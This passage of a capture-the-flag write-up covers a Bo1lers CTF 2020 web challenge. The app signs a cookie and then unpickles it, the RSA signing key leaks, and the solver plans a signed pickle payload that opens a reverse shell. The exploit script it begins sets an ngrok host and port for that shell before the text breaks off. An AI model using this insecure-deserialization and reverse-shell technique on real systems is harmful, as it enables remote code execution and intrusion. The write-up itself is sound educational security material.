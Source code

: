```python
@app.route('/flag')
def flag():
    signature = binascii.unhexlify(request.cookies.get("signature"))
    checkme = sign(request.cookies.get("user"))
    print(signature)
    print(checkme)
    ​assert signature == checkme
```
So, it gets the provided signature and user cookies, uses some sort of signing algorithm applied to *user* and checks if *sign(user) == signature*.
Let's try to break the signing algorithm by providing only the *signature* cookie.
![bo1lers_ctf](/assets/img/Bo1lersCTF_2020/web_8.jpeg)
Voilà, we have leaked the RSA keypair used for the *user* cookie signature.
Let's see what happens if we provide a malformed user cookie (just add some junk chars to user's cookie).
```python
def flag():

    # ...
    # ...
    assert signature == checkme

    user = pickle.loads(binascii.unhexlify(request.cookies.get("user")))

    if user.is_admin():
    ​with open('flag.txt', 'r') as f
    # ...

```
The old good boy python pickle module. It is well known that this module is vulnerable to Insecure Deserialization if it tries to deserialize user-provided data.
<br>[Using Python’s pickling to explain Insecure Deserialization.](https://medium.com/@shibinbshaji007/using-pythons-pickling-to-explain-insecure-deserialization-5837d2328466#:~:text=Insecure%20deserialization%20is%20when%20an,side(client.py).)

In our case, if the signature step passes, the application tries to deserialize the provided user cookie; that's our injection point.
At this point we know our goal:
1. Craft a custom pickle user object that when deserialized gives us RCE (preferably a reverse shell)
2. Sign our payload with the signing RSA algorithm
3. Wait for the reverse shell to connect to our machine and grab the flag

```python
import pickle
import binascii
from Crypto.Hash import SHA384
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
import requests

# Required User class
class User:

    def __init__(self):
        print()

    def __reduce__(self):
        # expose an ngrok tcp instance and wait for connection
        HOST = "0.tcp.ngrok.io"
        PORT = 12671
        # as there is no python nor php binary on the remote machine, use perl oneliner from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl
```